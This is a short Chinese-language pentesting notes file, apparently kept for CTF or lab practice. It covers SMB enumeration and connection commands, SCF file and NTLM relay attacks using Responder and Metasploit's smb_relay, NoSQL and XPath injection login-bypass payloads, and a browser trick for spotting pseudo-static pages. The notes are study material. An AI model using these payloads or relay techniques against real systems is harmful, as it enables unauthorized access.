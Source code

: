 # 一些不成体系的记录

这里记着一些不成体系的知识点，只是一些随手记录，等待之后再去实验单独开文

### smb枚举&&连接

枚举：smbmap -H 192.168.61.32

    crackmapexec smb 10.10.11.174

连接：smbclient //192.168.61.194/wave

    smbclient -L  //10.10.11.152/

smb共享 scf （shell command file）文件攻击：

[https://www.freebuf.com/articles/web/291348.html](https://www.freebuf.com/articles/web/291348.html)

1.通过NTLM 捕获进行smb攻击

2.利用msf 框架直接攻击获取shell

exploit/windows/smb/smb_relay

3。上传payload获取shell

responder 工具

[https://www.freebuf.com/articles/network/256844.html](https://www.freebuf.com/articles/network/256844.html)

### nosql （也是登录框中偶尔会遇见）

nosqlpayload

绕过：

admin' || '' === '

一般的nosql查询语句

this.username === '${value}' && this.password === '${value}'

this.username === 'admin' || '' === '' && this.password === 'value'

使用nosql 注入的检测工具 nosqli 可以检测是否有nosql注入漏洞（实测好像会误报不行）

### XPATH 注入

[XPATH注入学习 - 先知社区 (ali yun.com)](https://xz.aliyun.com/t/7791)

类似于sql注入中的

**'or '1'='1的paylaod**

Xpath : `']|//*|//*['`  该payload 用于访问xml文档的所有节点

可能的查询语句

`$query="user/username[@name='".$user."']";`

$result=$xml_>xpath(*/heroes/hero[login=‘"."’ and password=‘"."’)；

构造

`user1' or 1=1 or ''='`

组合成

`$query="user/username[@name='user1' or 1=1 or ''='']";`

可以匹配当前节点下所有user

Xpath注入的登录绕过

payload `' or '1'='1' or '`payload （类似于mysql的万能密码）这个是可以不用输入密码的

1'or '1'='1  这个是要输入密码的

### 伪静态页面识别

html页面感觉是伪静态的

 F12，输入

  javascript:alert(document.lastModified)

查看页面最后的修改时间，如果得到的时间和现在时间一致，就是伪静态页面

